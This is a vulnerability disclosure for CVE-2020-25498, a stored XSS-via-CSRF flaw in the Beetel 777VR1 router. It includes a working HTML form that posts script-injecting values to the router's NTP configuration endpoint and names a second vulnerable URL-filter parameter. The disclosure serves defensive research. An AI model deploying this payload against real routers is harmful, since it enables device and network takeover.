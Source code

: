 # CVE-2020-25498: Stored XSS via CSRF in Beetel 777VR1 Router

## **[Vulnerability Description]()**

It has been identified that the vulnerable endpoint doesn't have server side input validation and lacks client side filtering for any malicious script injection. An attacker can use this vulnerability to inject malicious script in the endpoint and the script is activated every time a user opens the vulnerable endpoint. Attacker can send a malicious URL with POST request payload to execute XSS in admin module via CSRF to take over the device and finally, to take over the network.

**Researcher:** Sayli Ambure (https://twitter.com/sayli_ambure)  

**MITRE CVE link:** https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25498

## **[Proof-of-Concept Exploit:]()**

**CSRF HTML Code:**
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.1.1/form2ntp.cgi" method="POST">
      <input type="hidden" name="ntpstate" value="Enable" />
      <input type="hidden" name="ntpserver" value='google&#46;com"><script>alert(1)</script>' />
      <input type="hidden" name="ntpserver2" value='google&#46;com"><script>alert(2)</script>' />
      <input type="hidden" name="ntpinterval" value="1" />
      <input type="hidden" name="ntptimezone" value="330" />
      <input type="hidden" name="submit&#46;htm&#63;time&#46;htm" value="Send" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

### **[1. NTP Server Name in System Time configuration module]()**

**Parameter: Server name**

### **[Proof of Concept Video:]()**

<a href="http://www.youtube.com/watch?feature=player_embedded&v=qeVHvmS5wtI
" target="_blank"><img src="http://img.youtube.com/vi/qeVHvmS5wtI/0.jpg" 
 width="500" height="300" border="10" /></a>
 
 ### **[2. URL Filter endpoint in Firewall module]()**
 
 **Parameter: Keyword**
 
 ### **[Proof of Concept video:]()**
 
<a href="http://www.youtube.com/watch?feature=player_embedded&v=u_6yBIMF74A
" target="_blank"><img src="http://img.youtube.com/vi/u_6yBIMF74A/0.jpg" 
 width="500" height="300" border="10" /></a>
